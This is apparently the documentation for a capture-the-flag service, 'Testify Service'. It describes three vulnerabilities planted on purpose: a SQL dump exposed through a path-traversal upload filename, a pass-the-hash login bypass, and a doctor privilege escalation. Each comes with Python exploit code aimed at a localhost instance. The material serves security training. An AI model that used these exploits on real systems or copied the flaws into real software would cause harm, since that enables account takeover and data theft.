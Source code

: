 Testify Service documentation
======================

# <ins>Vulnerabilities (3)

The Testify Service consists of three different Vulnerabilities. Two of them must be exploited after each other to access FLAGSTORE #1.
The third VULN leads to FLAGSTORE #2

## VULN #1: User Password Hash Exposure

- Category: Sensitive Data Exposure
- Difficulty: Medium

When registering a new user, a `.sql` dump file of the user database containing the password hashes is created.  
The attacker can retrieve this dump file by using a modified file name when uploading his ID in the appointments
section.

## VULN #2: Pass-The-Hash

- Category: Authentication
- Difficulty: Medium

The password is not allowed to contain any special characters other than ASCII. If the user passes a password string,
that does include non-ASCII characters (*e.g. a password hash obtained by VULN#1*) the hashing of the input password
string is skipped and directly compared to the hash in the user credential databse.


## VULN #3 User Privilege Escalation

- Category: User Privelege Administration
- Difficulty: Easy

When a user makes an appointment, an additional info for the doctor is submitted optionally (FLAGSTORE). This info can only
be viewed by a doctor having set the `is_doctor` attribute in the DB (doctor01,...,doctor05). However the `check_doctor()` 
function also checks whether the accessing user shows up as a assigned doctor in the `appointment` table of the DB. If so, 
the user is also considered a doctor and access to the info field (FLAGSTORE) of any user is granted.

# <ins>Exploits

Two different exploits for VULN#1 and VULN#2 need to be run after each other to obtain a flag.

## VULN #1 :

1. Make an appointment containing a file with arbitrary content but using the filename `../online_users/dump.sql`
2. In the appointments overview section: Use the *Download ID* button to download the hijacked `dump.sql` file

### Code

```
        self.register(username, password)
        self.http_get('/about')
        
        filename = '../online_users/dump.sql'

        app_id = self.make_appointment(prename, lastname, filename, date, time, file, 'doctor0' + str(random.randint(1, 5)), pin)
        route = '/get_id' + str(app_id)

        kwargs = {
            'allow_redirects': True
        }

        res = self.http_get(route, **kwargs)
        sql_string = res.content.decode('ascii').splitlines()
        user_list = [i.split(',')[1:3] for i in sql_string]
```

## VULN #2 :

1. Retrieve a user/hash pair from .sql dump file using VULN #1
2. Pass this hash as base64 to `/login` route.
3. Search response appointment content for flag

### Code

```
    def pass_the_hash(user, hash):
        obj = {
                'username': user,
                'password': base64.b64encode(bytes.fromhex(hash)).decode('ascii'),
                'login': 'signin'
        }
        req = requests.post('http://localhost:8597/login', data=obj)
        return req.text
```

## VULN #3 :

1. Create appointment with a new user while stating this user as the doctor in the make_appointment form (using POST-request)
2. Access the `/doctors` page to retrieve the info for the users returned by `/about` page 

### Code

```
    self.register(username, password)

    app_id = self.make_appointment(prename, lastname, filename, date, time, file, username, pin)

    text = self.http_get('/about').text
    splits = text[text.find('onlineUsers'):].split('&#39;')
    splits = splits[1:]
    del splits[1::2]
    for s in splits:
        kwargs = {'data': {'patient_username': s},
                  'allow_redirects': True}
        pot_flag = self.http_post('/doctors', **kwargs)

        if flag := self.search_flag(pot_flag.text):
            return flag
```
